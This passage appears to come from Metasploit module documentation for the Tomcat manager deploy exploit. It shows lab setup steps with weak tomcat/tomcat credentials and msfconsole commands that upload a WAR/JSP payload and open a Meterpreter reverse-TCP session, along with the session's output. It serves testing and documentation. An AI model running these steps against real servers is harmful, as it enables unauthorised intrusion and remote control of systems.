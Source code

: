     [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Using manually select target "Linux x86"
    [*] Uploading 1579 bytes as 9QymzSGGU0H4e.war ...
    [!] No active DB -- Credential data will not be saved!
    [*] Executing /9QymzSGGU0H4e/Mfz7dGecAsKTjSxfZgBv.jsp...
    [*] Undeploying 9QymzSGGU0H4e ...
    [*] Transmitting intermediate stager...(106 bytes)
    [*] Sending stage (335800 bytes) to 192.168.2.118
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.118:34294) at 2017-01-08 20:35:24 -0500
    
    meterpreter > sysinfo
    Computer     : 192.168.2.118
    OS           : Ubuntu 16.04 (Linux 4.4.0-21-generic)
    Architecture : x64
    Meterpreter  : x86/linux
    ```

#### gui Interface
The permission `manager-gui`, is required for this exploitation, and the `PATH` should be `/manager/html`.  However, my attempts were unsuccessful, also wasn't able to figure out where the `check` command's `serverinfo` URL was located.  [Manual exploitation is possible](#manual-exploitation)

### Tomcat8 (8.0.32) - Ubuntu server 16.04 64bit
Of note, as of 7, the permission role 'manager' has been divided into several sub-roles.  Each sub role the user has will change which `path` variable for exploitation.

#### Setup

1. `apt-get install tomcat8 tomcat8-admin`

#### text/script Interface Exploitation

1. Edit `/etc/tomcat8/tomcat-users.xml` to add:

  ```
  <role rolename="manager-script"/>
  <user username="tomcat" password="tomcat" roles="manager-script"/>
  ```

2. Restart tomcat: `sudo service tomcat8 restart`
  1. To verify the permissions are all set correctly, browse to `http://192.168.2.118:8087/manager/text/deploy`, and you should see `FAIL - Invalid parameters supplied for command [/deploy]
` as opposed to `403 Access Denied`

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_deploy 
    msf exploit(tomcat_mgr_deploy) > set rhost 192.168.2.118
    rhost => 192.168.2.118
    msf exploit(tomcat_mgr_deploy) > set rport 8088
    rport => 8088
    msf exploit(tomcat_mgr_deploy) > set target 3
    target => 3
    msf exploit(tomcat_mgr_deploy) > set payload linux/x86/mettle/reverse_tcp
    payload => linux/x86/mettle/reverse_tcp
    msf exploit(tomcat_mgr_deploy) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_deploy) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_deploy) > set path /manager/text
    path => /manager/text